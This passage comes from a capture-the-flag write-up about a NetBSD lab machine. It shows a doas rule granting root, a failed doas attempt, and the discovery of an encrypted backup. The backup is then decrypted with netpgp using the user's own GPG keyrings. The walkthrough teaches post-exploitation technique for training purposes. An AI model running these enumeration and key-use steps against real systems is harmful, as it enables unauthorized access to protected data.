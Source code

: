 But it says that this user can run anything as root:

    
    
    luanne$ cat /usr/pkg/etc/doas.conf
    permit r.michaels as root
    

Unfortunately, it requires a password:

    
    
    luanne$ doas sh
    Password:
    doas: authentication failed
    

### Find Backup

In the current homedir, there are three folders:

    
    
    luanne$ ls
    backups     devel       public_html user.txt
    

`devel` has the code for the new version of the API. `public_html` just has
the SSH key. `backups` is interesting, holding what looks like an encrypted
Tar archive:

    
    
    luanne$ ls -l backups/
    total 4
    -r--------  1 r.michaels  users  1970 Nov 24 09:25 devel_backup-2020-09-16.tar.gz.enc
    luanne$ file backups/devel_backup-2020-09-16.tar.gz.enc
    backups/devel_backup-2020-09-16.tar.gz.enc: data
    

### Decrypt

Looking around the box for any hint about what could be used to decrypt this
data, I noticed a `.gnupg` directory in r.michael’s home directory, and it
contains keyrings:

    
    
    luanne$ ls -l /home/r.michaels/.gnupg/
    total 8
    -rw-------  1 r.michaels  users   603 Sep 14  2020 pubring.gpg
    -rw-------  1 r.michaels  users  1291 Sep 14  2020 secring.gpg
    

`netpgp` is installed on the box, and it decrypts the file:

    
    
    luanne$ netpgp --decrypt --output=/tmp/0xdf.tar.gz backups/devel_backup-2020-09-16.tar.gz.enc
    signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14 
    Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a 
    uid              RSA 2048-bit key <r.michaels@localhost>
    
    luanne$ file /tmp/0xdf.tar.gz
    /tmp/0xdf.tar.gz: gzip compressed data, last modified: Tue Nov 24 09:18:51 2020, from Unix, original size modulo 2^32 12288
    